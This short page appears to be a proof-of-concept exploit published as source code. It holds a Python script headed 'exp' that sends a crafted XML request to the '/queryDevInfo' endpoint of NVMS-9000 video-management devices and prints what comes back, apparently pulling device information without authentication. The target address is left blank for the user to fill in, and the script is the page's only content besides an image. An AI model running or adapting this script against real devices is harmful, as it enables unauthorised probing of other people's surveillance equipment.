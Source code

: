 ![](image/e4a8d098597f9733aacadf95dd9be6be.png)

## exp
```python
import requests

target_ip = "http://"

data = '''<?xml version="1.0" encoding="utf-8" ?>
<request version="1.0" systemType="NVMS-9000" clientType="WEB"/>'''

headers = {
    "Accept-Language": "en-US,en;q=0.9",
    "Accept-Encoding": "gzip, deflate",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
    "Upgrade-Insecure-Requests": "1",
    "Connection": "keep-alive",
    "User-Agent": "Mozilla/5.0 (iPhone; CPU iPhone OS like Mac OS X) AppleWebKit (KHTML, like Gecko) Version Mobile Safari",
    "Content-Length": str(len(data))
}

response = requests.post(f"{target_ip}/queryDevInfo", headers=headers, data=data)

print(f"Status Code: {response.status_code}")
print(f"Response Body: {response.text}")
```
